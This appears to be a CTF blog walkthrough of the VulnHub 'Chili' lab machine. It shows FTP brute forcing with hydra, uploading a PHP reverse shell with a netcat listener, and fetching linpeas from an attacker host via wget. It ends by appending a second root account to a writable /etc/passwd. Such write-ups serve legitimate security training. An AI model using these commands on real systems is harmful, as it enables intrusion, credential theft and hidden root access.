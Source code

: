 ```yaml
---
layout: post
title: "Chili"
date: 2020-10-10
ctf: true
excerpt: "Walkthrough for Chili on Vulnhub"
tags: [ftp brute force, improper privileges, /etc/passwd]
comments: false


---
```


[Chili](https://www.vulnhub.com/entry/chili-1,558/) is a vulnerable system found on VulnHub. Below are the steps I utilized to compromise this vulnerable box.

First, after importing the machine, I ran **netdiscover -i eth0** to discover the IP address of the host.

![Chili netdiscover](/assets/img/Chili1.png)

Next, I ran **threader3000** to enumerate the TCP ports that were open on this host and let it complete it's recommended nmap scan.

![Chili threader3000 nmap](/assets/img/Chili2.png)

It appears that there is both a web server and FTP running on this host. I first looked at the website to see if there was anything useful on it to start off. This returned a site with a picture of a chili pepper and nothing else. A review of the source code of the page revealed nothing of interest either.

![Chili website](/assets/img/Chili3.png)

Next, I ran **gobuster dir -u http://[machine ip]** to see if it came up with any results. Unfortunately this did not return any results.

I next turned my attention to the open FTP port. anonymous FTP was not open, but I decided to attempt to brute force FTP with hydra. I utilized the username of **chili** based on a hint listed on the vulnhub website. The command I used was **hydra -s 21 -l chili -P /usr/share/seclists/Passwords/Common-Credentials/best1050.txt  -t 20 [machine ip] ftp -V**. After a bit of time, the password was cracked:

![Chili Hydra brute force](/assets/img/Chili4.png)

Now that we have ftp credentials, lets log in and look around. After initially logging in, it appears that we are in the **/home/chili** directory.

![Chili ftp access](/assets/img/Chili5.png)

We know SSH isn't running, or else we could upload a key to gain access. Since only FTP and HTTP are running, let's upload a root shell. First, let's run **cd /var/www/html** to navigate to the default HTML folder for Apache. Once here, we can run **ls -al** to list the directory contents to confirm we are in the main folder for the hosted website.

![Chili ftp html directory](/assets/img/Chili6.png)

Next, let's upload [PenTestMonkey's Reverse PHP Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). We will need to modify the IP address and port as designated with the **// CHANGE THIS** section in the code with your attacker's IP and port of your choice to connect to.

![Chili Reverse PHP Shell modification](/assets/img/Chili7.png)

Next, from your FTP session, run **cd /var/www/html/.nano** run **lcd [path to where you saved the reverse PHP shell]** followed by **put reverse-shell.php** to upload your PHP reverse shell. We did this as through testing we did not have the permissions to upload a shell to the /var/www/html folder, but the .nano subfolder we had permissions to access.

![Chili ftp upload reverse shell](/assets/img/Chili8.png)

Next, in another terminal window, run **nc -nvlp [port #]** where port # is the port you specified in the reverse shell. This will create a listener on this port on your attacker machine.

![Chili nc listener](/assets/img/Chili9.png)

Next, navigate to **http://[machine ip]/.nano/reverse-shell.php**. Unfortunately, this does not create a shell, this is because we did not make the php file executable. From the FTP session, run **chmod 777 reverse-shell.php** and then try to reload the web page.

![Chili chmod reverse-shell.php](/assets/img/Chili10.png)

![Chili webpage reverse PHP shell](/assets/img/Chili11.png)

Now, go back to your netcat terminal window, you should have a reverse shell. Running **whoami** will let you know you are currently the **www-data** user.

![Chili www-data foothold](/assets/img/Chili12.png)

Let's run **linpeas** in order to enumerate this host for potential avenues of privilege escalation to root. In order to do so, you will need to host a python HTTP server in a folder that has the **linpeas.sh** script on your attacker machine. The command to run to host an HTTP server is **python3 -m http.server**.

![Chili attacker python http server](/assets/img/Chili13.png)

Next, from your foothold as www-data, run **cd /tmp**, **wget http://[attacker ip]:8000/linpeas.sh**, and finally, **chmod 777 linpeas.sh**. The **/tmp** folder is used as it is typically writeable by any user, the 2nd command downloads the script from your attacker machine, and the 3rd one makes it executable. 

![Chili linpeas.sh](/assets/img/Chili14.png)

Now, run **./linpeas.sh** and review the results. After review, it appears that we can write to the **/etc/passwd** file.

![Chili linpeas.sh output](/assets/img/Chili15.png)

Next, let's run **cd /etc** followed by **ls -al|grep passwd** to confirm we have write access to this file. It appears that we do.

![Chili /etc/passwd](/assets/img/Chili16.png)

Let's use openssl to generate a password of **pwned** and use it to create a **root2** user and add it to the /etc/passwd file with **echo "root2:pr652V7MdLRRg:0:0:root:/root:/bin/bash" >> /etc/passwd**

![Chili create 2nd root user](/assets/img/Chili17.png)

Next, let's run **su root2** and enter the password we just created (**pwned**). Running **whoami** shows you are now running as root.

![Chili su root2](/assets/img/Chili18.png)

Finally, let's run **cd /root** followed by **ls -al** and finally **cat proof.txt** to finish this box. 

![Chili proof.txt](/assets/img/Chili19.png)

